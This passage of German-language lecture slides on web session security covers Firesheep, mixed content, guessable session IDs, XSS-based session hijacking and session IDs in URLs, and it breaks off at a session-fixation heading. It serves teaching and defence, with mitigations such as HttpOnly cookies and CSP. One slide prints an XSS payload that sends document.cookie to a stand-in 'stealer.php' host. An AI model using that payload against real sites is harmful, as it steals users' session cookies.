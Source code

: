 ## Tool: Firesheep

![Picture](0x05_firesheep.png){.stretch}

## Mixed-Content: Current Situation

* Mittlerweile: active mixed-content wird by default geblockt
* Chrome will Download von "gefährlichen" Inhalten mittels HTTP unterbinden

## Problem: Session-ID vorher-bestimmbar

* Angreifer darf Session-ID nicht erraten können
* Schlechte Ideen:
  * aufsteigende Zahlen
  * MD5 auf die Systemzeit
* Immer einen guten Zufallszahlengenerator verwenden
* Entropie-Check der Session-Id

## Problem: XSS

* Annahme: die Webapplikation hat eine XSS-Lücke

![Picture](0x05_session_hijack_xss.png){.stretch}
  
## Beispiel XSS Extraction

```html
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
```

## Lösung für XSS-Lücke

* keine XSS Lücken implementieren
* httpOnly-Flag bei Session Cookies setzen
* CSP verwenden

```
Set-Cookie: CookieName=Wert; path=/; HttpOnly
```

## Problem: Session-ID als GET-Parameter

* wird dadurch in Proxies, Caches, etc. gespeichert
* auch in Browser Historie
* Vermeiden durch Verwendung eines Session-Cookies
* Work-Around: Verwendung von POST Requests

## Problem: Session-Fixation
